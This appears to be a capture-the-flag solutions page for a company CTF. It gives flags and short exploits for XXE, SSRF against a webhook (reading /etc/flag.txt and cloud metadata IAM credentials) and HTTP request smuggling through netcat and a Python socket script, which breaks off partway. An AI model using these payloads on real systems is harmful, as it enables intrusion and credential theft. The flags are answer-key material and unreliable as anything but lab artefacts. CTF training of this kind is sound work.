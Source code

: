 - Blind sql timing attack
- flag.py
- flag: companyctf{t1m1ng_4tt4ck_4r3_fun_as_h3ll}

## XXE

- XML External Entity exploit
- "<?xml version='1.0' encoding='UTF-8'?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://localhost/generate.php'>]><input><firstName>&test;</firstName><lastName>bich</lastName></input>"
- flag: companyctf{th4t_w45_50m3_4w350m3_j0b_th4t_y0u_d1d_th3r3}

## SSRF

- SSRF attack via php webhook 
- Catch one of many possible flags:
  * Simply add file:///etc/flag.txt in the WebHook Form. If the docker container is running on EC2 the metadata service will also be available and ready for being looted :)
  * Loot the Metadata Service if it runs on EC2 => search for http://169.254.169.254/latest/meta-data/iam/security-credentals/{Stuff that lays around there} => with those credentials access to the AWS account is possible and hidden flags f.e. on S3 can be captured
- flag: companyctf{w3lcom3_t0_th3_jungl3}


## HTTP_REQUEST_SMUGGLING_nginx

- HTTP request smuggling 
- Exploit it by running the following script in your bash 
  ```bash
  printf 'GET /a HTTP/1.1\r\n'\
  'Host: localhost\r\n'\
  'Content-Length: 56\r\n'\
  '\r\n'\
  'GET /_hidden/index.html HTTP/1.1\r\n'\
  'Host: notlocalhost\r\n'\
  '\r\n'\
  |nc 127.0.0.1 9015
  ```
  
- flag: companyctf{publ1c_s3rv1c3_15_mY_m0770-@l_C@p0n3}

## HTTP_REQUEST_SMUGGLING_websocket

- More difficult HTTP request smuggling to access a page in a hidden network
- Exploit it (with Python2...pain or gain)
  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

  ```